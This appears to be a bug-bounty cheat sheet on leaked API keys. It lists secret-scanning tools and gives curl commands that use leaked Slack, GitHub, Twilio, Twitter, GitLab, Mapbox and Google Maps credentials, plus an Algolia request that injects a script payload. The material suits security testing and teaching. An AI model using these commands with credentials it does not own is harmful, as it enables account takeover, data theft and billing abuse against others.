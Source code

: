 # API Key and Token Leaks

> The API key is a unique identifier that is used to authenticate requests associated with your project. Some developers might hardcode them or leave it on public shares.

## Summary

- [Tools](#tools)
- [Exploit](#exploit)
    - [Google Maps](#google-maps)
    - [Algolia](#algolia)
    - [Slack API Token](#slack-api-token)
    - [Facebook Access Token](#facebook-access-token)
    - [Github client id and client secret](#github-client-id-and-client-secret)
    - [Twilio Account_sid and Auth Token](#twilio-account_sid-and-auth-token)
    - [Twitter API Secret](#twitter-api-secret)
    - [Twitter Bearer Token](#twitter-bearer-token)
    - [Gitlab Personal Access Token](#gitlab-personal-access-token)
    - [HockeyApp API Token](#hockeyapp-api-token)
    - [Mapbox API Token](#mapbox-api-token)


## Tools

- [momenbasel/KeyFinder](https://github.com/momenbasel/KeyFinder) - is a tool that let you find keys while surfing the web
- [streaak/keyhacks](https://github.com/streaak/keyhacks) - is a repository which shows quick ways in which API keys leaked by a bug bounty program can be checked to see if they're valid
- [trufflesecurity/truffleHog](https://github.com/trufflesecurity/truffleHog) - Find credentials all over the place
    ```ps1
    ## Scan a Github Organization
    docker run --rm -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest github --org=trufflesecurity
    
    ## Scan a GitHub Repository, its Issues and Pull Requests
    docker run --rm -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest github --repo https://github.com/trufflesecurity/test_keys --issue-comments --pr-comments
   
    ## Scan a Docker image for verified secrets
    docker run --rm -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest docker --image trufflesecurity/secrets
    ```
- [aquasecurity/trivy](https://github.com/aquasecurity/trivy) - General purpose vulnerability and misconfiguration scanner which also searches for API keys/secrets
- [projectdiscovery/nuclei-templates](https://github.com/projectdiscovery/nuclei-templates) - Use these templates to test an API token against many API service endpoints
    ```powershell
    nuclei -t token-spray/ -var token=token_list.txt
    ```
- [blacklanternsecurity/badsecrets](https://github.com/blacklanternsecurity/badsecrets) - A library for detecting known or weak secrets on across many platforms
    ```ps1
    python examples/cli.py --url http://example.com/contains_bad_secret.html
    python examples/cli.py eyJhbGciOiJIUzI1NiJ9.eyJJc3N1ZXIiOiJJc3N1ZXIiLCJVc2VybmFtZSI6IkJhZFNlY3JldHMiLCJleHAiOjE1OTMxMzM0ODMsImlhdCI6MTQ2NjkwMzA4M30.ovqRikAo_0kKJ0GVrAwQlezymxrLGjcEiW_s3UJMMCo
    python ./badsecrets/examples/blacklist3r.py --viewstate /wEPDwUJODExMDE5NzY5ZGQMKS6jehX5HkJgXxrPh09vumNTKQ== --generator EDD8C9AE
    python ./badsecrets/examples/telerik_knownkey.py --url http://vulnerablesite/Telerik.Web.UI.DialogHandler.aspx
    python ./badsecrets/examples/symfony_knownkey.py --url https://localhost/
    ```
- [mazen160/secrets-patterns-db](https://github.com/mazen160/secrets-patterns-db) - Secrets Patterns DB: The largest open-source Database for detecting secrets, API keys, passwords, tokens, and more.
- [d0ge/sign-saboteur](https://github.com/d0ge/sign-saboteur) - SignSaboteur is a Burp Suite extension for editing, signing, verifying various signed web tokens


## Exploit

The following commands can be used to takeover accounts or extract personal information from the API using the leaked token.

### Google Maps 

* [ozguralp/gmapsapiscanner/](https://github.com/ozguralp/gmapsapiscanner/) - Google Maps API Scanner

|  Name                 |  Endpoint |
| --------------------- | --------- |
|  Static Maps          | [/maps/api/staticmap?key=KEY](https://maps.googleapis.com/maps/api/staticmap?center=45%2C10&zoom=7&size=400x400&key=KEY) |
|  Streetview           | [/maps/api/streetview?key=KEY](https://maps.googleapis.com/maps/api/streetview?size=400x400&location=40.720032,-73.988354&fov=90&heading=235&pitch=10&key=KEY) |
|  Embed                | [/maps/embed/v1/place?key=KEY](https://www.google.com/maps/embed/v1/place?q=place_id:ChIJyX7muQw8tokR2Vf5WBBk1iQ&key=KEY) |
|  Directions           | [/maps/api/directions/json?key=KEY](https://maps.googleapis.com/maps/api/directions/json?origin=Disneyland&destination=Universal+Studios+Hollywood4&key=KEY) |
|  Geocoding            | [/maps/api/geocode/json?key=KEY](https://maps.googleapis.com/maps/api/geocode/json?latlng=40,30&key=KEY) |
|  Distance Matrix      | [/maps/api/distancematrix/json?key=KEY](https://maps.googleapis.com/maps/api/distancematrix/json?units=imperial&origins=40.6655101,-73.89188969999998&destinations=40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.659569%2C-73.933783%7C40.729029%2C-73.851524%7C40.6860072%2C-73.6334271%7C40.598566%2C-73.7527626%7C40.659569%2C-73.933783%7C40.729029%2C-73.851524%7C40.6860072%2C-73.6334271%7C40.598566%2C-73.7527626&key=KEY) |
|  Find Place from Text | [/maps/api/place/findplacefromtext/json?key=KEY](https://maps.googleapis.com/maps/api/place/findplacefromtext/json?input=Museum%20of%20Contemporary%20Art%20Australia&inputtype=textquery&fields=photos,formatted_address,name,rating,opening_hours,geometry&key=KEY) |
|  Autocomplete         | [/maps/api/place/autocomplete/json?key=KEY](https://maps.googleapis.com/maps/api/place/autocomplete/json?input=Bingh&types=%28cities%29&key=KEY) |
|  Elevation            | [/maps/api/elevation/json?key=KEY](https://maps.googleapis.com/maps/api/elevation/json?locations=39.7391536,-104.9847034&key=KEY)   |
|  Timezone             | [/maps/api/timezone/json?key=KEY](https://maps.googleapis.com/maps/api/timezone/json?location=39.6034810,-119.6822510&timestamp=1331161200&key=KEY) |
|  Roads                | [roads.googleapis.com/v1/nearestRoads?key=KEY](https://roads.googleapis.com/v1/nearestRoads?points=60.170880,24.942795&key=KEY) |
|  Geolocate            | [www.googleapis.com/geolocation/v1/geolocate?key=KEY](https://www.googleapis.com/geolocation/v1/geolocate?key=KEY) |


**Impact**:

* Consuming the company's monthly quota or can over-bill with unauthorized usage of this service and do financial damage to the company
* Conduct a denial of service attack specific to the service if any limitation of maximum bill control settings exist in the Google account


### Algolia 

```powershell
curl --request PUT \
  --url https://<application-id>-1.algolianet.com/1/indexes/<example-index>/settings \
  --header 'content-type: application/json' \
  --header 'x-algolia-api-key: <example-key>' \
  --header 'x-algolia-application-id: <example-application-id>' \
  --data '{"highlightPreTag": "<script>alert(1);</script>"}'
```


### Slack API Token

```powershell
curl -sX POST "https://slack.com/api/auth.test?token=xoxp-TOKEN_HERE&pretty=1"
```


### Facebook Access Token

```powershell
curl https://developers.facebook.com/tools/debug/accesstoken/?access_token=ACCESS_TOKEN_HERE&version=v3.2
```


### Github client id and client secret

```powershell
curl 'https://api.github.com/users/whatever?client_id=xxxx&client_secret=yyyy'
```


### Twilio Account_sid and Auth token

```powershell
curl -X GET 'https://api.twilio.com/2010-04-01/Accounts.json' -u ACCOUNT_SID:AUTH_TOKEN
```


### Twitter API Secret

```powershell
curl -u 'API key:API secret key' --data 'grant_type=client_credentials' 'https://api.twitter.com/oauth2/token'
```


### Twitter Bearer Token

```powershell
curl --request GET --url https://api.twitter.com/1.1/account_activity/all/subscriptions/count.json --header 'authorization: Bearer TOKEN'
```


### Gitlab Personal Access Token

```powershell
curl "https://gitlab.example.com/api/v4/projects?private_token=<your_access_token>"
```


### HockeyApp API Token

```powershell
curl -H "X-HockeyAppToken: ad136912c642076b0d1f32ba161f1846b2c" https://rink.hockeyapp.net/api/2/apps/2021bdf2671ab09174c1de5ad147ea2ba4
```


### Mapbox API Token

A Mapbox API Token is a JSON Web Token (JWT). If the header of the JWT is `sk`, jackpot. If it's `pk` or `tk`, it's not worth your time.

* Check token validity: 
    ```ps1
    curl "https://api.mapbox.com/tokens/v2?access_token=YOUR_MAPBOX_ACCESS_TOKEN"
    ```
    
* Get list of all tokens associated with an account (only works if the token is a Secret Token (sk), and has the appropriate scope)
    ```ps1
    curl "https://api.mapbox.com/tokens/v2/MAPBOX_USERNAME_HERE?access_token=YOUR_MAPBOX_ACCESS_TOKEN"
    ```


## References

* [Finding Hidden API Keys & How to Use Them - Sumit Jain - August 24, 2019](https://web.archive.org/web/20191012175520/https://medium.com/@sumitcfe/finding-hidden-api-keys-how-to-use-them-11b1e5d0f01d)
* [Introducing SignSaboteur: Forge Signed Web Tokens with Ease - Zakhar Fedotkin - May 22, 2024](https://portswigger.net/research/introducing-signsaboteur-forge-signed-web-tokens-with-ease)
* [Private API Key Leakage Due to Lack of Access Control - yox - August 8, 2018](https://hackerone.com/reports/376060)
* [Saying Goodbye to My Favorite 5 Minute P1 - Allyson O'Malley - January 6, 2020](https://www.allysonomalley.com/2020/01/06/saying-goodbye-to-my-favorite-5-minute-p1/)